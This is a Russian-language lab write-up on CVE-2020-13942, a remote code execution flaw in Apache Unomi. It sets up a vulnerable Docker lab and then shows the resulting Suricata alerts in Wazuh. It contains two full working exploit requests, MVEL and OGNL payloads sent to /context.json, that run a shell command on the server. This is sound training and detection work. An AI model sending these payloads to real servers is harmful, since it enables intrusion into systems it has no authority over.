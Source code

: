 # CVE-2020-13942

### Материалы:

* [https://nvd.nist.gov/vuln/detail/CVE-2020-13942](https://nvd.nist.gov/vuln/detail/CVE-2020-13942)
* [https://www.opencve.io/cve/CVE-2020-13942](https://www.opencve.io/cve/CVE-2020-13942)

Apache Unomi — это платформа данных о клиентах с открытым исходным кодом Java, сервер Java, предназначенный для управления данными о клиентах, потенциальных клиентах и ​​посетителях, а также для персонализации обслуживания клиентов. В версиях до 1.5.1 Apache Unomi позволял злоумышленникам отправлять вредоносные запросы с выражениями MVEL и OGNL, которые могли содержать произвольные классы, что приводило к удаленному выполнению кода (RCE) с привилегиями приложения Unomi.

### Эксплуатация уязвимости

Для запуска уязвимой среды выоплните команду:

```
docker compose up -d
```

После запуска по адресу http://ваш-ip:8181 будет доступна стандартная страница Apache Unomi

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

Выполнение произвольных команд через выражения MVEL:

```
POST /context.json HTTP/1.1
Host: ваш-ip:8181
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 483

{
    "filters": [
        {
            "id": "sample",
            "filters": [
                {
                    "condition": {
                         "parameterValues": {
                            "": "script::Runtime r = Runtime.getRuntime(); r.exec(\"touch /tmp/mvel\");"
                        },
                        "type": "profilePropertyCondition"
                    }
                }
            ]
        }
    ],
    "sessionId": "sample"
}
```

Выполнение произвольных команд через выражения OGNL:

```
POST /context.json HTTP/1.1
Host: ваш-ip:8181
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 1060

{
  "personalizations":[
    {
      "id":"gender-test",
      "strategy":"matching-first",
      "strategyOptions":{
        "fallback":"var2"
      },
      "contents":[
        {
          "filters":[
            {
              "condition":{
                "parameterValues":{
                  "propertyName":"(#runtimeclass = #this.getClass().forName(\"java.lang.Runtime\")).(#getruntimemethod = #runtimeclass.getDeclaredMethods().{^ #this.name.equals(\"getRuntime\")}[0]).(#rtobj = #getruntimemethod.invoke(null,null)).(#execmethod = #runtimeclass.getDeclaredMethods().{? #this.name.equals(\"exec\")}.{? #this.getParameters()[0].getType().getName().equals(\"java.lang.String\")}.{? #this.getParameters().length < 2}[0]).(#execmethod.invoke(#rtobj,\"touch /tmp/ognl\"))",
                  "comparisonOperator":"equals",
                  "propertyValue":"male"
                },
                "type":"profilePropertyCondition"
              }
            }
          ]
        }
      ]
    }
  ],
  "sessionId":"sample"
}
```

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><img src="../../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>

